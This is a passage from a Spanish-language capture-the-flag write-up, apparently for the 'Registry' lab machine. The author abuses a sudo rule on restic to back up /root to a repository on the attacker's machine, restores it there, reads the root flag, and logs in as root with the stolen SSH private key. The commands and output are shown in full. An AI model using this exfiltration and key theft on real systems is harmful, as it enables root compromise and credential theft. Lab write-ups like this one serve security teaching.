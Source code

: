 Y ahora por fin podemos crear una copia en el repositorio remoto del directorio `/root`
```console
www-data@registry:~/html/bolt/files/.persistent$ sudo restic backup -r rest:http://127.0.0.1:3000/ /root
< restic backup -r rest:http://127.0.0.1:3000/ /root
enter password for repository: pointed

password is correct
found 2 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to remove them
scan [/root]
scanned 10 directories, 13 files in 0:00
[0:00] 100.00%  27.856 KiB / 27.856 KiB  23 / 23 items  0 errors  ETA 0:00 
duration: 0:00
snapshot 0c617191 saved
```

Ahora solo falta reestablecer el backup.

Nos venimos a nuestra máquina de atacante.

Y reestablecemos el backup al directorio `restore`
```console
$ ./restic_0.8.3_linux_amd64 -r ./bk/ restore latest --target restore
```

Podemos ver la flag de `root`

```console
$ cd restore/
┌─[192.168.1.52]─[pointedsec@parrot]─[/tmp/rest-server-0.9.3/restore]
└──╼ [★]$ ls
root
┌─[192.168.1.52]─[pointedsec@parrot]─[/tmp/rest-server-0.9.3/restore]
└──╼ [★]$ cd root/
┌─[192.168.1.52]─[pointedsec@parrot]─[/tmp/rest-server-0.9.3/restore/root]
└──╼ [★]$ ls
config.yml  cron.sh  root.txt
┌─[192.168.1.52]─[pointedsec@parrot]─[/tmp/rest-server-0.9.3/restore/root]
└──╼ [★]$ cat root.txt 
dd62564f2d232d29...
```

También vemos la clave privada de `root`

```console
┌─[192.168.1.52]─[pointedsec@parrot]─[/tmp/rest-server-0.9.3/restore/root/.ssh]
└──╼ [★]$ ls
authorized_keys  id_rsa  id_rsa.pub
```

Y podríamos conseguir una consola interactiva en la máquina víctima.
```console
$ ssh -i id_rsa root@registry.htb
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Wed Aug 28 21:29:14 UTC 2024

  System load:                    0.0
  Usage of /:                     60.2% of 4.71GB
  Memory usage:                   18%
  Swap usage:                     0%
  Processes:                      190
  Users logged in:                1
  IP address for eth0:            10.129.220.101
  IP address for br-1bad9bd75d17: 172.18.0.1
  IP address for docker0:         172.17.0.1
Last login: Wed Sep  7 15:10:00 2022
root@registry:~# id
uid=0(root) gid=0(root) groups=0(root)
```